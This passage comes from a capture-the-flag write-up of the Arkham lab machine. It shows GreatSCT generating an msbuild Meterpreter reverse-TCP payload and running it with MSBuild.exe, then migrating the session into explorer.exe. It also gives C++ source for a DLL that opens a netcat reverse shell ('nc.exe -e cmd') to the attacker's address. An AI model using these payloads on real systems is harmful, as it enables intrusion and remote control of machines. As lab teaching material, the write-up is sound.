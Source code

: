 ```shell-session
> use Bypass
> use msbuild/meterpreter/rev_tcp.py
> set LHOST 10.10.14.29
> set LPORT 9292
> generate
```

GreatSCT will create two different files for us:

![img](/images/arkham-writeup/24.png)

payload.xml will be msbuild's input, while payload.rc is a Metasploit resource file to be opened by msfconsole either with the -r flag or the resource command, and will start a multi handler for us. So let's download the xml file on Arkham (again with Invoke-WebRequest or "iwk" for short) and then launch msbuild.exe by specifing its absolute path since it's not in %path%:

```shell-session
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe msbuild.xml
```

![img](/images/arkham-writeup/25.png)

The handler in the meantime catches the incoming connection and starts a Meterpreter session:

![img](/images/arkham-writeup/26.png)

Now we can list running processes with ps and select an interactive one (so one with a GUI) to migrate to, explorer.exe is a good example:

![img](/images/arkham-writeup/27.png)

Now it's time to craft a DLL. Mine will just start a reverse shell with the same nc.exe we've been using over and over again, here's the C++ code:

```cpp
#include <windows.h>

void exploit(void);

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			exploit();
	}
	return TRUE;
}

void exploit(void)
{
	PROCESS_INFORMATION pi;
	STARTUPINFO si;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	char cmd[] = "C:\\tomcat\\apache-tomcat-8.5.37\\bin\\nc.exe -e cmd 10.10.14.29 5555";
	
	CreateProcess(NULL,    // No module name (use command line)
	cmd,            // Command line
	NULL,           // Process handle not inheritable
	NULL,           // Thread handle not inheritable
	FALSE,          // Set handle inheritance to FALSE
	0,              // No creation flags
	NULL,           // Use parent's environment block
	NULL,           // Use parent's starting directory
```